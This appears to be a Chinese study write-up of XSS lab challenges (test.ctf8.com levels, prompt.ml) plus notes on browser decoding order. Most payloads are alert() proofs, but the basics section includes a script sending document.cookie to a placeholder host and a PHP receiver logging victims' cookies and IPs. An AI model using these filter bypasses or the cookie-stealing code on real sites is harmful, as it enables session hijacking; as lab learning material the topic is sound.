



## XSS挑战

(突然发现这个平台有bug，只需要在控制台alert(1)即可。。)

### level1

```
http://test.ctf8.com/level1.php?name=%3Cscript%3Ealert(1)%3C/script%3E
```

### level2

```
没有找到和</h2><script>alert(1)</script><h2>相关的结果.
```

但是

```
<h2 align=center>没有找到和<scRipt>alert(1)</script>相关的结果.</h2><center> <form action=level2.php method=GET> <input name=keyword  value="<scRipt>alert(1)</script>"> <input type=submit name=submit value="搜索"/> </form>
```

payload

```
"><script>alert(1)</script>"
```

### level3 js事件绕过

这次两个都被转义了

```
<h2 align=center>没有找到和<script>alert(1)</script>相关的结果.</h2><center> <form action=level3.php method=GET> <input name=keyword  value='<script>alert(1)</script>'> <input type=submit name=submit value=搜索 /> </form>
```

那就不用

```
'onmouseover='alert(1)
```

提交之后鼠标悬浮到上面即可触发

### level4

```
<h2 align=center>没有找到和<script>alert(1)</script>相关的结果.</h2><center> <form action=level4.php method=GET> <input name=keyword  value="scriptalert(1)/script"> <input type=submit name=submit value=搜索 /> </form>
```

同样的绕过

```
" onmouseover="alert(1)
```

### level5 a标签绕过

```
<h2 align=center>没有找到和<script>alert(1)</script>相关的结果.</h2><center> <form action=level5.php method=GET> <input name=keyword  value="<scr_ipt>alert(1)</script>"> <input type=submit name=submit value=搜索 /> </form>
```

但是现在会被过滤

```
<input name=keyword  value="'o_nmouseover='alert(1)">
<input type=submit name=submit value=搜索 />
</form>
```

那么事件不能用了

payload

```
"><a href="javascript:alert(1);">aaa</a>
```


```
<form action=level5.php method=GET> <input name=keyword  value=""><a href="javascript:alert(1);">aaa</a>"> <input type=submit name=submit value=搜索 /> </form>
```

### level6

```
<h2 align=center>没有找到和相关的结果.</h2><center> <form action=level6.php method=GET> <input name=keyword  value=""> <input type=submit name=submit value=搜索 /> </form>       <h2 align=center>没有找到和"><a href="javascript:alert(1);">aaa</a>相关的结果.</h2><center> <form action=level6.php method=GET> <input name=keyword  value=""><a hr_ef="javascript:alert(1);">aaa</a>"> <input type=submit name=submit value=搜索 /> </form>
```

payload：(大写可以绕过)

```
"> <a Href="javascript:alert(/1/)">axxx</a>
```

### level7

```
<form action=level7.php method=GET> <input name=keyword  value="<>alert(1)</>"> <input type=submit name=submit value=搜索 /> </form>
```

`script` , `on`被过滤

payload

```
" oonninput=alert(1) " "oonnmouseover="alert(1)
```

然后输入即可

### level8

将 `javascript:alert(1)` html实体编码即可

```
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;
```

### level9

将

```
javascript:alert(1)
```

html实体编码，然后加上 `%0d`

```
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x0a;%0dhttp://www.0aa.me%0dalert(1)
```

### level10

这一关有点玄学

```
&t_sort=" type="text"onmouseover=alert`1` "
```

### level11

添加 referer

```
" type="text" onclick="alert(1)
```



### level12

在User-agent 处注入

```
" type="text" onclick="alert(1)
```

### level13

在cookie处注入

```
" type="text" onclick="alert(1)
```

### level14

iframe 引入了

```
<iframe name="leftframe" marginwidth=10 marginheight=10 src="http://www.exifviewer.org/" frameborder=no width="80%" scrolling="no" height=80%></iframe></center><center>
```

### level15

angular js

```
http://localhost/xss_test/level15.php?src='level1.php?name='
```

### level16

%0a 绕过空格

```
http://localhost/xss_test/level16.php?keyword=%3Cimg%0asrc=1%0aonerror=alert(1)%3E
```

level17-20 都是flash相关的xss，就不写了

## prompt1 to win

[http://prompt.ml/0](http://prompt.ml/0)

### 0

```
"><script>prompt(1)</script><"
```

### 1

```
function escape(input) {     // tags stripping mechanism from ExtJS library     // Ext.util.Format.stripTags     var stripTagsRE = /<\/?[^>]+>/gi;     input = input.replace(stripTagsRE, '');      return '<article>' + input + '</article>'; }
```

不能闭合标签

```
<body/onload=prompt(1)// <body onload=prompt(1)//
```

`onload` 事件属性，在页面加载之后立即执行一段JavaScript

### 2

```
function escape(input) {     //                      v-- frowny face     input = input.replace(/[=(]/g, '');      // ok seriously, disallows equal signs and open parenthesis     return input; }
```

使用svg即可

```
<svg><script>prompt&#x28;1)</script>  <svg><script>prompt&#x28 1)</script>
```

### 3

```
function escape(input) {     // filter potential comment end delimiters     input = input.replace(/->/g, '_');      // comment the input to avoid script execution     return '<!-- ' + input + ' -->'; }
```

新姿势get

```
--!><script>prompt(1)</script
```

### 4

```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

### 5

```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}
```

新姿势。。

```
"type=image src onerror
="prompt(1)
```

或者

```
"type=image src onerror
=prompt(1)
```

### 6

```
function escape(input) {     // let's do a post redirection     try {         // pass in formURL#formDataJSON         // e.g. http://httpbin.org/post#{"name":"Matt"}         var segments = input.split('#');         var formURL = segments[0];         var formData = JSON.parse(segments[1]);          var form = document.createElement('form');         form.action = formURL;         form.method = 'post';          for (var i in formData) {             var input = form.appendChild(document.createElement('input'));             input.name = i;             input.setAttribute('value', formData[i]);         }          return form.outerHTML + '                         \n\ <script>                                                  \n\     // forbid javascript: or vbscript: and data: stuff    \n\     if (!/script:|data:/i.test(document.forms[0].action)) \n\         document.forms[0].submit();                       \n\     else                                                  \n\         document.write("Action forbidden.")               \n\ </script>                                                 \n\         ';     } catch (e) {         return 'Invalid form data.';     } }
```

代码很复杂，但是其实就是一个构造表单的过程



如果使用JavaScript伪协议，被过滤了

```
javascript:prompt(1)#{"test":1}
```

新姿势：

action有这样的一个特性，如果前后都有action，访问action标签时访问的是后面的action的值。

所以如果输入

```
javascript:prompt(1)#{"action":1}
```

得到的结果

```
<form action="javascript:prompt(1)" method="post"><input name="action" value="1"></form>                          <script>                                                       // forbid javascript: or vbscript: and data: stuff         if (!/script:|data:/i.test(document.forms[0].action))          document.forms[0].submit();                            else                                                           document.write("Action forbidden.")                </script>
```

### 9

```
function escape(input) {     // filter potential start-tags     input = input.replace(/<([a-zA-Z])/g, '<_$1');     // use all-caps for heading     input = input.toUpperCase();      // sample input: you shall not pass! => YOU SHALL NOT PASS!     return '<h1>' + input + '</h1>'; }
```

payload如下

```
<ſcript/ſrc=//⒕₨></ſcript>
```



### A

```
function escape(input) {     // (╯°□°）╯︵ ┻━┻     input = encodeURIComponent(input).replace(/prompt/g, 'alert');     // ┬──┬ •ノ( ゜-゜ノ) chill out bro     input = input.replace(/'/g, '');      // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO     return '<script>' + input + '</script> '; }
```

组合一下。

```
prom'pt(1)
```

## XSS基础知识

```
<script>var img=document.createElement("img");img.src="http://xxxx/a?"+escape(document.cookie);</script>
```

escape一般会进行URL编码，但是 该方法不会对 ASCII 字母和数字进行编码，也不会对下面这些 ASCII 标点符号进行编码： \* @ - \_ + . / 。其他所有的字符都会被转义序列替换。

常用的payload

```
<script>alert(/xss/);</script> //经典语句  <BODY ONLOAD=alert('XSS')>  <svg onload=alert(1)> <a href = javasript:alert(1)>
```

### 简单地XSS接收平台

js脚本

```
var img = document.createElement("img"); img.src = "http://xxx/x.php?cookie="+document.cookie; document.body.appendChild(img);
```

接收端

```
<?php   $victim = 'XXS得到的 cookie:'. $_SERVER['REMOTE_ADDR']. ':' .$_GET['cookie']."\r\n\r\n";   echo htmlspecialchars($_GET['cookie']); $myfile = fopen("/aixi/XSS/xss_victim.txt", "a"); fwrite($myfile, $victim); ?>
```

### 从浏览器解码看xss

#### html编码解码

浏览器会先解析html，然后解析xss，所以，如果在xss中使用到了html实体编码是没有用的

```
<script>alert&#40;'1')</script>
```

但是却可以触发，原因是 svg支持xml,在XML中实体会自动转义,除了`<![CDATA[`和`]]>`包含的实体

```
<svg><script>alert&#40;1)</script>
```

#### JavaScript编码解码

下面无法触发，原因是浏览器看到 `onerror` 之后，调用js解析器，但是在js中，**单引号，双引号和圆括号等属于控制字符，编码后将无法识别。所以对于防御来说，应该编码这些控制字符**

```

```

所以我们需要修改成这样

```

```

结合上面的html编码，我们可以将 `\u0061\u006c\u0065\u0072\u0074('\u0031')` 再进行一次html实体编码(这样就算你过滤了 `'`,照样可以绕过)

```

```

比如开发人员单纯的设置HTML实体编码为防御xss的手段，但是用户输入点确实在alert中

```

```

如果用户正常输入的话凡是存在`<` ,`"` 等都能被转码

但是攻击者可以通过语句`");alert("test` 然后HTML编码即可绕过

```

```

发现弹窗了两次,是因为服务端进行一个HTML解码发现存在两个`alert()`弹窗于是直接弹

所以对于这种情况，正确防御XSS的方法应该是先javascript编码然后再进行HTML编码

#### URL编码解码

```
<a href = "javascript:alert(3)">hhhhh<a>
```

浏览器看到`<`满足HTML解码的条件，然后看到`href` 满足了URL编码额条件，最后看到`javascript`满足JS 解码的条件

于是我们可以反过来编码

作为攻击者我们应该反过来首先进行一个JS编码

```
<a href="javascript:\u0061\u006c\u0065\u0072\u0074(3)">hhhhhh</a>
```

然后进行一个URL编码

```
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(3)">hhhhhh</a>
```

最后进行一个HTML编码

```
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(3)">hhhhhh</a>
```

其他栗子：

```
<a onclick="window.open('value1')" href="javascript:window.open(value2)">
```

这里的value1：浏览器看到`<`标签，可以HTML解码，然后看到`onclick`可以进行JS解码，最后看到`window.open`可以进行URL解码

对于value2而言：浏览器看到`<`标签进行一个HTML解码，然后看到`href`进行一个URL解码，再之后看到`javascript`进行一个JS解码，最后看到了`window.open`编码进行一个URL解码

### XSS payload判断是否执行练习

#### 1 协议被编码导致无法执行

```
<a href="%6a%61%76%61%73%63%72%69%70%74:%61%6c%65%72%74%28%31%29"></a>
```

href 丢给URL模块解析，但是协议无法识别（即被编码的`javascript:`），解码失败，不会被执行

#### 2

```
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:%61%6c%65%72%74%28%32%29">
```

先进行htm解码得到

```
javascript:%61%6c%65%72%74%28%32%29
```

然后href丢给URL模块解析，得到

```
javascript:alert(2)
```

可以执行

#### 3 协议被编码，同1

```
<a href="javascript%3aalert(3)"></a>
```

#### 4

```
<div>&#60;img src=x onerror=alert(4)&#62;</div>
```

无法执行，因为从HTML解析机制看，在读取`<div>`之后进入数据状态，`&#60;`会被HTML解码，但不会进入标签开始状态，当然也就不会创建`img`元素，也就不会执行

#### 5

```
<textarea>&#60;script&#62;alert(5)&#60;/script&#62;</textarea>
```

无法执行，`<textarea>`是`RCDATA`元素（RCDATA elements），可以容纳文本和字符引用，注意**不能容纳其他元素**，HTML解码得到

```
<textarea><script>alert(5)</script></textarea>
```

#### 6 同5 无法执行

```
<textarea><script>alert(6)</script></textarea>
```

#### 7

```
<button onclick="confirm('7');">Button</button>
```

这里`onclick`中为标签的属性值（类比2中的`href`），会被HTML解码，得到

```
<button onclick="confirm('7');">Button</button>
```

然后被执行

#### 8

```
<button onclick="confirm('8\u0027);">Button</button>
```

`onclick`中的值会交给JS处理，在JS中只有字符串和[标识符](https://developer.mozilla.org/zh-CN/docs/Glossary/Identifier)能用Unicode表示，`'`显然不行，JS执行失败

#### 9

```
<script>&#97;&#108;&#101;&#114;&#116&#40;&#57;&#41;&#59</script>
```

无法执行

`script`属于原始文本元素(Raw text elements)，**只可以容纳文本**，注意**没有字符引用**，于是直接由JS处理，JS也认不出来，执行失败

原始文本元素(Raw text elements)有`<script>`和`<style>`

#### 10

```
<script>\u0061\u006c\u0065\u0072\u0074(10);</script>
```

这里js中可以使用Unicode的，只是有些特殊字符不能编码，可以执行

#### 11 同8，关键字符被编码

```
<script>\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0031\u0029</script>
```

不能执行

#### 12 由于解码是字符串导致无法执行

```
<script>\u0061\u006c\u0065\u0072\u0074(\u0031\u0032)</script>
```

这里看似将没毛病，但是这里`\u0031\u0032`在解码的时候会被解码为字符串`12`，注意是**字符串**，不是数字，文字显然是需要引号的，JS执行失败

这样就行了

```
<script>\u0061\u006c\u0065\u0072\u0074("\u0031\u0032")</script>
```

#### 14 同8无法执行

```
<script>alert('13\u0027)</script>
```

#### 15

```
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x31;&#x35;&#x29;"></a>
```

html解码，得到

```
javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(15)
```

href识别出是JavaScript协议，URL解码得到

```
javascript:\u0061\u006c\u0065\u0072\u0074(15)
```

可以执行

总结
